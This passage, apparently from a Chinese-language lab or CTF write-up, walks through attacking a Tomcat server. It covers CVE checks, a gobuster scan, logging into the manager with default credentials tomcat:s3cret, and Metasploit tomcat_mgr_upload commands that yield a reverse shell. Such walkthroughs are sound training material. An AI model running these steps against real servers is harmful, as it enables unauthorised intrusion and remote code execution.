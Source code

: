 学到

1) CVE-2019-0232
   This the most recent CVE available for Tomcat. To exploit the CVE number, the Tomcat must have CGI enable.

嗯，`http://10.129.121.74:8080/cgi-bin` 返回了404

说明没开，那无了

###### CVE-2019-0221

看上去是个XSS，无用

###### CVE-2018-11784

没找到啥好玩的

###### CVE-2018-8034

没找到啥好玩的

###### CVE-2018-8034

没找到啥好玩的

所以所以开始懵逼了嘛。

#### 4.4 gobuster

那 上一个gobuster试试

```shell
gobuster dir -u http://10.129.121.74:8080/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

gobuster爆出manager能200

#### 4.5 登录tomcat

访问 `http://10.129.121.74:8080/manager`

需要登录

被大佬 [gscr10](https://github.com/gscr10) 教育tomcat默认用户名密码可以试试tomcat:s3cret

就 就上去了

大佬是真的牛逼

所以可以上传jar

```shell
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost 10.129.121.74
msf exploit(multi/http/tomcat_mgr_upload) > set rport 8080
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword s3cret
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

连上了reverse shell

